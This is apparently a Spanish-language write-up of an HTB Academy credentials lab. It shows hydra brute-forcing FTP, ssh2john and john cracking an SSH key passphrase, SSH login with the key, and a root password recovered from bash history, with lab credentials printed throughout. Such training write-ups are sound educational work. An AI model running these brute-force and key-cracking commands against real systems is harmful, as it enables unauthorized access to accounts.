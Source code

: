 # Resolution lab1 - Credentials HTB Academy

- Encontramos puertos 21 y 22

- Hacemos fuerza bruta
	```bash
	hydra -L username.list -P password.list ftp://$target -t 50
	```
	encontrando creds: `mike:7777777`

- Al acceder por ftp encontramos un archivo `id_rsa`, que está protegido por contraseña. Aplicamos nuevamente fuerza bruta sobre este archivo
	```bash
	ssh2john id_rsa > ssh.hash
	```

	```bash
	john --wordlist=/usr/share/wordlists/rockyou.txt.1 ssh.hash
	```
	obteniendo que la contraseña es `7777777`

- Accedemos por `ssh`
	```bash
	ssh -i id_rsa mike@$target
	```
- Encontramos en `.bash_history` una línea con la siguiente información:

	```textplain
	analysis.py -u root -p dgb6fzm0ynk@AME9pqu
	```

